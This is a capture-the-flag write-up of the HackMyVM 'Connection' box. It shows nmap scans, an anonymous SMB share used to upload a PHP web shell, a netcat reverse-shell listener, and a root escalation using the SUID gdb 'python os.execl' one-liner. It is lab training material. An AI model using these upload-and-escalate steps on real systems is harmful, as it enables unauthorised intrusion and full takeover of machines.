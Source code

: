 ```yaml
---
title: HackMyVM - Connection
description: My writeup on Connection box.
categories:
 - HackMyVM
tags: HackMyVM smb gdb suid
---
```


![](https://i.imgur.com/VYEVjve.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

I found this really cool lab, similar to vulnhub but has point system/ranking etc. I suggest you to try this out, 101% worth it. We start by finding a share on SMB that we can connect as anonymous and we can upload our shell there this gives us a shell as www-data. Privesc to root is a simple SUID exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:27 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:49:78:7B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
$ nmap -p 22,80,139,445 -sC -sV -oN nmap/initial $ip 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:28 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```

Let's start with SMB, as always let's list the shares.

```
$ smbmap -H $ip
[+] IP: 192.168.1.17:445	Name: connection.zte.com.cn                             
 Disk                                               Permissions	Comment
	----                                               -----------	-------
	share                                             	READ ONLY	
	print$                                            	NO ACCESS	  Printer Drivers
	IPC$                                              	NO ACCESS	  IPC Service (Private Share for uploading files)
```

Let's connect to `share`:

```
$ smbclient //$ip/share
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Wed Sep 23 04:48:39 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  html                                D        0  Thu Oct  1 12:32:02 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: > cd html
smb: html> ls
  .                                   D        0  Thu Oct  1 12:32:02 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  index.html                          N    10701  Wed Sep 23 04:48:45 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: html> 
```

We have access to web content, we can simply upload our shell and execute it!

## Shell as www-data

```
smb: html> put shell.php
putting file shell.php as \html\shell.php (1073.0 kb/s) (average 1073.0 kb/s)
smb: html> exit
$ curl http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@connection:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as root

If we search for SUIDS, we can see `gdb` is set as SUID we can simply exploit this to get root shell:

```
www-data@connection:/home/connection$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5 12:10 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
```

```
www-data@connection:/home/connection$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# whoami;id
whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flags:

```
# cat /root/proof.txt | cut -c1-10          
a7c6ea4931
# cat /home/connection/local.txt | cut -c1-10
3f491443a2
```

Good one!

